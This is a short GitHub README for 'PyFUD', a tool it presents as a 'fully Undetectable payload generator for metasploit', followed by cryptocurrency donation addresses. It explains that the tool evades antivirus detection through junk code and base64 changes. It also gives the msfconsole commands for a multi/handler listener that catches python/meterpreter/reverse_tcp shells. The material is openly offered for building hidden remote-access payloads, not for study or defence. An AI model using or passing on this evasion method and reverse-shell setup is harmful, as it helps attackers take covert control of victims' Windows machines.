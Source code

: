 # PyFUD
![Image](/screenshots/images.png)  
fully Undetectable payload generator for metasploit  
Usage:
`pyfud.py --host HOST --output OUTPUT file name --port PORT`  
the payload is made fully Undetectable by adding some junk code into the main program and some changes are made on the base64 string
tested on windows 10  
metasploit setup:  
`
msfconsole
`
  
`
use multi/handler
`
  
`
set payload python/meterpreter/reverse_tcp
`
  
`
set lport {port used to make payload}
`
  
`
set lhost {your local ip adress or just 0.0.0.0}
`
  
`
run
`

  
Feel free, any cent counts will really help :)  
BTC address:168vrx5UuJNfNuvoYe6qhmAZCvePW4VPj2  
usdt address (binance trc20): TKP9Ch8JELiqn7n5VdfGMNqJwW2wpZAYi3
